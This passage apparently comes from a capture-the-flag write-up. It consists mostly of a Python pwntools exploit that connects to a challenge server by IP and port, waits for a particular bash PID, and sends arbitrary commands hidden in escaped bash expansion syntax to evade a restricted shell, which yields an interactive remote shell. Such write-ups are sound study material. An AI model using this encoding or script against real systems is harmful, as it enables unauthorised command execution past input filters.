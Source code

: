 With this knowlege, writing a script that then sends arbitrary commands is not that hard.

```python
from pwn import *

import sys

def send_cmd(cmd):
    r = remote("35.198.107.77", 1337)
    
    payload = build_payload(cmd)
    print("payload is: {}".format(payload.decode()))

    while nextpid(r) != 53:
        pass

    print("sending exploit")
    r.sendline(payload)
    r.interactive()

def nextpid(r):
    r.sendline(b"$$")
    r.readuntil(b"bash: ")
    pid = int(r.readuntil(b":")[:-1], 10)
    print("current pid: {}".format(pid))
    r.readline()
    return pid + 1

base_payload = rb"${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'"
base_payload_end = rb"\\\\\\\'"

def build_payload(string):
    bstr = string.encode()
    payload = base_payload
    for char in bstr:
        payload += encode_character(char)
    payload += base_payload_end
    return payload

def encode_character(byte):
    octals = "{:o}".format(byte)
    payload = rb"\\\\\\\\"
    for octal in octals:
        num = int(octal, 8)
        if num == 0:
            payload += rb"$#"
        elif num == 1:
            payload += rb"${##}"
        else:
            payload += rb"\\\$\\\(\\\(" 
            payload += rb"\$\'\\$$\'".join([rb"${##}" for i in range(num)])
            payload += rb"\\\)\\\)"
    return payload

while True:
    cmd = input("Shell> ")
    send_cmd(cmd)
```
